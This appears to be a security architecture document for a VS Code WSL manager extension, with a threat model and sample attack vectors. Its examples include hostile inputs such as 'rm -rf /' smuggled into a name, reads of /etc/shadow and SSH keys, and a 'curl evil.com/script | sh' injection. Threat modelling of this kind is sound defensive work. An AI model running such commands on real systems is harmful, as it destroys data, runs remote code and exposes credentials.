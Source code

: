 # Security Architecture

## Overview

VSC WSL Manager implements a comprehensive security architecture designed to protect against common vulnerabilities while maintaining usability. This document details the security measures, threat model, and implementation details.

## Security Principles

1. **Defense in Depth**: Multiple layers of security controls
2. **Least Privilege**: Minimal permissions required for operations
3. **Input Validation**: All user inputs are validated and sanitized
4. **Secure by Default**: Security features enabled out of the box
5. **Transparency**: Security events can be audited

## Threat Model

### Identified Threats

| Threat Category | Specific Threat | Impact | Likelihood | Mitigation |
|----------------|-----------------|---------|------------|------------|
| **Injection** | Command Injection | Critical | High | Use spawn() with argument arrays |
| **Injection** | Path Traversal | High | Medium | Path validation and normalization |
| **Resource Abuse** | DoS via Rate Limits | Medium | Medium | Per-operation rate limiting |
| **Information Disclosure** | Error Message Leakage | Low | High | Error message sanitization |
| **Unauthorized Access** | Unintended Operations | High | Low | Permission prompts |
| **Data Integrity** | Malicious TAR Import | Critical | Low | User warnings and validation |

### Attack Vectors

1. **Malicious Distribution Names**
   ```
   "; rm -rf / #
   ../../../etc/passwd
   ${HOME}/.ssh/id_rsa
   ```

2. **Path Manipulation**
   ```
   ../../sensitive/data.tar
   C:\Windows\System32\config\SAM
   \\.\CON\exploit
   ```

3. **Command Injection**
   ```
   test && curl evil.com/script | sh
   test; cat /etc/shadow
   test`whoami`
   ```
